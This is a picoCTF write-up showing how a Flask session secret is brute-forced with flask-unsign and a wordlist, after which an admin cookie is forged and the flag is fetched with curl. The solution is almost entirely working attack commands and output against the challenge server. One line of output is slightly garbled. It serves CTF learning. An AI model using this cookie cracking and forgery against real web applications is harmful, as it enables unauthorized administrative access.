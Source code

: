 ## Descripción
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/cae5577e6b8f86e17d7884723204f61e/server.py) [http://mercury.picoctf.net:6259/](http://mercury.picoctf.net:6259/)
## Solución
```
┌──(kali㉿kali)-[~/Documents]
└─$ python -m venv ~/.venv
                                                                                                       
┌──(kali㉿kali)-[~/Documents]
└─$ source ~/.venv/bin/activate
                                                                                                       
┌──(.venv)─(kali㉿kali)-[~/Documents]
└─$ pip install flask-unsign

┌──(.venv)─(kali㉿kali)-[~/Documents]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aNq0PQ.HE3FVrx1YKqROdwtbmwYJ4Gz6Mc" --wordlist cookies.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'gingersnap'

┌──(.venv)─(kali㉿kali)-[~/Documents]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'gingersnap'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aNyjtA.OzQtQWnXp16LeUJgNPDtVREarus
 
┌──(.venv)─(kali㉿kali)-[~]
└─$ curl -s http://mercury.picoctf.net:6259/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aNyjtA.OzQtQWnXp16LeUJgNPDtVREarus" | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_5f016958}</code></p>
            
```
## Notas
## Referencias
